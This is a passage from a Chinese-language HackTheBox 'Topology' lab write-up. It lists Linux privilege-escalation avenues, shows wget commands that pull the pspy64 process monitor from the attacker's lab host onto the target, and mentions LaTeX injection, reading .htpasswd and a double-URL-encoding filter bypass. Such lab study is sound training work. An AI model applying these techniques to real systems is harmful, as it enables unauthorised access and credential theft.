 2. 根据内核版本查找exp（如内核溢出提权）：[GitHub - SecWiki/linux-kernel-exploits: linux-kernel-exploits Linux平台提权漏洞集合](https://github.com/SecWiki/linux-kernel-exploits)

3. 脚本检测：linux-exploit-suggester

4. 找到可以使用sudo的脚本，审核脚本代码是否有调用可写的脚本

5. 计划任务

6. 系统服务错误权限配置漏洞

7. 不安全的文件/文件夹权限配置

8. 明文存储的用户名、密码

下载pspy64监控进程：[Releases · DominicBreuker/pspy · GitHub](https://github.com/DominicBreuker/pspy/releases)

然后进入download打开一个terminal输入：

`python -m http.server`

然后进入ssh页面输入：

`wget http://10.10.16.42:8000/pspy64`

`chmod +x pspy64`

### 总结

1. 熟练使用端口扫描（nmap），域名/目录爆破工具（wfuzz, gobuster, fuff）、哈希解密工具（hashcat, hash-identifier, john）

2. 信息搜集（latex injection），熟悉 apache 目录（看到dev子域名有http认证立刻能想到/var/www/dev/.htpasswd)

3. 熟悉linux提权漏洞

#### 参考writeup：

- [靶场笔记-HTB-Topology – 鹏路翱翔个人博客](https://www.penglusoars.top/2023/06/18/%e9%9d%b6%e5%9c%ba%e7%ac%94%e8%ae%b0-htb-topology/)

- [HTB Topology WriteUp_Som3B0dy的博客-CSDN博客](https://blog.csdn.net/qq_58869808/article/details/131176733) 这篇文章写于2023年6月12日，在使用latex injection时无意间实现了文件写入（貌似使用URL编码就绕过了输入过滤，由于前端是自带编码转换的，即在文本框输入%5cbegin，实际提交的是%255cbegin，而后端发现输入中有\begin(%5cbegin)才会提示非法），该bug已在6月16日被作者修复，这时提交%255cbegin虽然不会提示非法，但会无法执行

- [Hackthebox Topology Walkthrough - 掘金 (juejin.cn)](https://juejin.cn/post/7244351125448851512)

